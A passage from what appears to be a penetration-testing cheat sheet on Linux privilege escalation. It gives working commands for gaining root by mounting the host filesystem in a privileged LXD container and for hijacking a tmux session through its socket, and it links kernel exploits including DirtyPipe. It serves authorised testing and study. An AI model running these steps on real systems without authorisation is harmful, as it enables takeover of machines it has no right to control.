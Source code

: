 Build an Alpine image and start it using the flag `security.privileged=true`, forcing the container to interact as root with the host filesystem.

```powershell
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
./build-alpine -a i686

# import the image
lxc image import ./alpine.tar.gz --alias myimage

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

Alternatively <https://github.com/initstring/lxd_root>

## Hijack TMUX session

Require a read access to the tmux socket : `/tmp/tmux-1000/default`.

```powershell
export TMUX=/tmp/tmux-1000/default,1234,0 
tmux ls
```

## Kernel Exploits

Precompiled exploits can be found inside these repositories, run them at your own risk !

* [bin-sploits - @offensive-security](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)
* [kernel-exploits - @lucyoa](https://github.com/lucyoa/kernel-exploits/)

The following exploits are known to work well, search for more exploits with `searchsploit -w linux kernel centos`.

Another way to find a kernel exploit is to get the specific kernel version and linux distro of the machine by doing `uname -a`
Copy the kernel version and distribution, and search for it in google or in <https://www.exploit-db.com/>.

### CVE-2022-0847 (DirtyPipe)

Linux Privilege Escalation - Linux Kernel 5.8 < 5.16.11

* [Lance Biggerstaff/2022-0847](https://www.exploit-db.com/exploits/50808)
